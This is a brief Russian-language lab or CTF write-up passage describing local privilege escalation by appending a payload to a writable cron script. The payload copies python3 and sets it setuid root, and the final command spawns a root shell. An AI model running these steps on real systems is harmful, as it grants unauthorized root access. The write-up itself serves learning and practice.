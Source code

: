 Находим 2 скрипта и можем изменить cronscript_overwrite.sh
![](../../attachment/Pasted%20image%2020250623100138.png)
Создаем payload.sh и добавляем в конец скрипта запуска /var/tmp/payload.sh
```
#!/bin/bash 
cp /usr/bin/python3 /var/tmp/python3 
chown root:root /var/tmp/python3 
chmod u+s /var/tmp/python3
```
Дожидаемся выполнения cron задачи и получаем рут права 
```
/var/tmp/python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/sh")'
```
